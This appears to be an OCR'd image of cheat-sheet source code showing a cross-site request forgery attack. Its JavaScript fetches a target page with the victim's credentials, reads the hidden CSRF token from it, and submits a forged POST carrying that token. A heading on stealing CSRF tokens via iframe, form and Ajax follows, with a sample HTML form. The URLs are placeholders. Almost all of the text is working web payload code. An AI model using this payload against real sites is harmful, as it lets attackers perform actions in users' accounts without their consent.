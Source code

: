               function submitFormWithTokenJS(token) {

                  var xhr = new XMLHttpRequest();
                  xhr.open("POST", POST_URL, true);
                  xhr.withCredentials = true;

                  // Send the proper header information along with the request
                  xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");

                  // This is for debugging and can be removed
                  xhr.onreadystatechange = function() {
                      if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                          //console.log(xhr.responseText);
                      }
                  }

                  xhr.send("token=" + token + "&otherparama=heyyyy");
              }

              function getTokenJS() {
                  var xhr = new XMLHttpRequest();
                  // This tels it to return it as a HTML document
                  xhr.responseType = "document";
                  xhr.withCredentials = true;
                  // true on the end of here makes the call asynchronous
                  xhr.open("GET", GET_URL, true);
                  xhr.onload = function (e) {
                      if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                          // Get the document from the response
                          page = xhr.response
                          // Get the input element
                          input = page.getElementById("token");
                          // Show the token
                          //console.log("The token is: " + input.value);
                          // Use the token to submit the form
                          submitFormWithTokenJS(input.value);
                      }
                  };
                  // Make the request
                  xhr.send(null);
              }

              var GET_URL="http://google.com?param=VALUE"
              var POST_URL="http://google.com?param=VALUE"
              getTokenJS();

# Steal CSRF Token and send a Post request using an iframe, a form and Ajax

              <form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
              <input type="text" name="username" value="AA">
              <input type="checkbox" name="status" checked="checked">
              <input id="token" type="hidden" name="token" value="" />
              </form>
